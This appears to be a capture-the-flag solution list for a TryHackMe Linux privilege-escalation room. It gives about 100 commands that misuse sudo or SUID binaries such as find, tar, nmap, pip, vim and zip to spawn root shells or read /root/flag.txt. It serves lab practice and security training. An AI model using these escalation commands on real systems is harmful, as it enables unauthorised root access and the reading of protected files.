 #Linux Privesc Playground

##100 Ways of capturing root flags

https://tryhackme.com/room/privescplayground

1. sudo arp -v -f "/root/flag.txt"
2. sudo ash
3. sudo awk '//' "/root/flag.txt"
4. sudo bash
5. sudo base64 "/root/flag.txt" | base64 --decode
6. sudo busybox sh , sudo busybox cat /root/flag.txt
7. sudo cat /root/flag.txt
8. sudo chmod 0777 /root/flag.txt , cat /root/flag.txt
9. sudo chown $(id -un):$(id -gn) /root/flag.txt , cat /root/flag.txt
10. cp /root/flag.txt /dev/stdout
11. sudo csh , cat /root/flag.txt
12. cut -d "" -f1 /root/flag.txt
13. sudo dash , cat /root/flag.txt
14. date -f /root/flag.txt
15. emacs /root/flag.txt
16. sudo env /bin/sh , cat /root/flag.txt
17. expand /root/flag.txt
18. sudo expect -c 'spawn /bin/sh;interact' , cat /root/flag.txt
19.
 ```bash
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```
20. file -f /root/flag.txt
21. dd if=/root/flag.txt
22. diff --line-format=%L /dev/null  /root/flag.txt
23. sudo dmsetup ls --exec '/bin/sh -s' , cat /root/flag.txt
24. 
```bash 
TF=$(mktemp -d)
echo 'print(open("/root/flag.txt").read())' > $TF/setup.py
easy_install $TF
```
25. sudo find . -exec /bin/sh \; -quit , cat /root/flag.txt
26. sudo flock -u / /bin/sh , cat /root/flag.txt
27. fmt -999 /root/flag.txt
28. fold -w99999999 /root/flag.txt
29. 
```bash 
sudo ftp
!/bin/sh
cat /root/flag.txt
```
30. sudo gawk '//' /root/flag.txt
31. gdb -nx -ex 'python print(open("/root/flag.txt").read())' -ex quit
32.
```bash
sudo irb
puts File.read("/root/flag.txt")
```
33. sudo jq -R . /root/flag.txt
34. sudo ksh , cat /root/flag.txt
35. less /root/flag.txt
36. 
```bash
sudo logsave /dev/null /bin/sh -i
cat /root/flag.txt
```
37.
```bash
sudo ltrace -L /bin/sh
cat /root/flag.txt
```
38.
```bash
git help config
!/bin/sh
```
39. grep '' /root/flag.txt
40. head -c1G /root/flag.txt
41. ionice /bin/sh , cat /root/flag.txt
42. ip -force -batch /root/flag.txt
43. sudo lua -e 'os.execute("/bin/sh")' , cat /root/flag.txt
44. sudo man /root/flag.txt
45. sudo mawk '//' "/root/flag.txt"
46. more /root/flag.txt
47. 
```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount
cat /root/flag.txt
```
48. mv /root/flag.txt . , cat /root/flag.txt
49. nano /root/flag.txt
50. sudo nawk '//' /root/flag.txt
51. nice /bin/sh , cat /root/flag.txt
52. nl -bn -w1 -s '' /root/flag.txt
53. 
```bash
sudo nmap --interactive
nmap> !sh
cat /root/flag.txt
```
54. od -An -c -w9999 /root/flag.txt
55. openssl enc -in /root/flag.txt
56. sudo perl -e 'exec "/bin/sh";' , cat /root/flag.txt
57. pg /root/flag.txt
58. 
```bash
pic -U
.PS
sh X sh X
cat /root/flag.txt
```
59. 
```bash
pico -s /bin/sh
/bin/sh
Control+T
cat /root/flag.txt
```
60. 
```bash
TF=$(mktemp -d)
echo 'raise Exception(open("/root/flag.txt").read())' > $TF/setup.py
pip install $TF
```
61. sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }" , cat /root/flag.txt
62. python -c 'print(open("/root/flag.txt").read())'
63. readelf -a @$/root/flag.txt
64. rlwrap /bin/sh , cat /root/flag.txt
65. rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null , cat /root/flag.txt
67. sudo ruby -e 'puts File.read("/root/flag.txt")'
68. run-parts --new-session --regex '^sh$' /bin , cat /root/flag.txt
69. rvim /root/flag.txt
70. 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```
71. sudo screen , press SPACE ,  cat /root/flag.txt
72. sudo script -q /dev/null , cat /root/flag.txt
73. sed '' /root/flag.txt
74. sudo service ../../bin/sh , cat /root/flag.txt
75. setarch $(arch) /bin/sh , cat /root/flag.txt
76. socat stdin exec:/bin/sh , cat /root/flag.txt
77. sort -m /root/flag.txt
78. 
```bash
sudo sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import /root/flag.txt t
SELECT * FROM t;
EOF
```
79. sudo ssh -F /root/flag.txt localhost
80. start-stop-daemon -n $RANDOM -S -x /bin/sh , cat /root/flag.txt
81. stdbuf -i0 /bin/sh , cat /root/flag.txt
82. strace -o /dev/null /bin/sh , cat /root/flag.txt
83. tail -c1G /root/flag.txt
84. sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh , cat /root/flag.txt
85. sudo taskset 1 /bin/sh , cat /root/flag.txt
86. 
```bash
tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```
87. /usr/bin/time /bin/sh , cat /root/flag.txt
88. timeout 7d /bin/sh , cat /root/flag.txt
89. sudo tmux , cat /root/flag.txt
90. ul /root/flag.txt
91. unexpand -t99999999 /root/flag.txt
92. uniq /root/flag.txt
93. sudo unshare /bin/sh , cat /root/flag.txt
94. vi /root/flag.txt
95. vim /root/flag.txt
96. sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0' , cat /root/flag.txt
97. xargs -a /root/flag.txt -0 
98. xxd /root/flag.txt | xxd -r
99. 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
100. sudo zsh , cat /root/flag.txt
